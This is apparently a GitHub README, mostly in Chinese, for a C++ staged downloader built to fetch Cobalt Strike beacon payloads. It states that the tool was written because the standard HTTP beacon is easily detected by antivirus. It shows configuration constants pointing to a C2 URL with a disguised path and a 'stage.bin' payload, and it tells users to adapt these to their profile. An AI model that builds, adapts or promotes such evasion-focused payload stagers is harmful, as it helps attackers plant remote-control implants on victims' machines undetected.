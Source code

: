 # HttpStageDownloader
cobaltstrike的http分阶段下载器 cpp版本
cobaltstrike stage downloader writed by cpp

参考视频：https://www.bilibili.com/video/BV1MA4y1Z7Uz/

cobalt strike的http beacon很容易被查杀，这里用wininet和winhttp写了个分阶段下载器。
代码里的<br>
   const WCHAR* szUrl = L"http://127.0.0.1/async/Newtab_promos";<br>
    const WCHAR* szDomain = L"127.0.0.1";<br>
    const WCHAR* szUrlPath = L"/async/Newtab_promos";<br>
    const char* szFileName = "stage.bin";<br>
自己根据profile文件进行修改.<br>
![](https://github.com/fgfxf/HttpStageDownloader/blob/main/1.png) <br>
![](https://github.com/fgfxf/HttpStageDownloader/blob/main/2.png) <br>
![](https://github.com/fgfxf/HttpStageDownloader/blob/main/3.png) <br>
![](https://github.com/fgfxf/HttpStageDownloader/blob/main/4.png) <br>

